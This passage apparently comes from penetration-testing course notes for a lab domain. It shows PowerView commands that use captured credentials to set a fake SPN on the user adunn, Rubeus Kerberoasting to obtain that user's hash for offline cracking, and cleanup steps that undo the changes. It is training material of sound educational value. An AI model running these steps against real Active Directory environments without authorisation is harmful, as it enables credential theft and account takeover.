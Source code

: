 {% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
{% endcode %}

If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking. Let's do this with Rubeus.

<mark style="color:green;">**Kerberoasting with Rubeus**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

```
{% endcode %}

***

### <mark style="color:red;">Cleanup</mark>

In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the `adunn` user.
2. Remove the `damundsen` user from the `Help Desk Level 1` group
3. Set the password for the `damundsen` user back to its original value (if we know it) or have our client set it/alert the user

<mark style="color:orange;">**Removing the Fake SPN from adunn's Account**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
{% endcode %}

Next, we'll remove the user from the group using the `Remove-DomainGroupMember` function.

<mark style="color:orange;">**Removing damundsen from the Help Desk Level 1 Group**</mark>

{% code fullWidth="true" %}
```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
{% endcode %}

We can confirm the user was indeed removed:

<mark style="color:orange;">**Confirming damundsen was Removed from the Group**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```
{% endcode %}
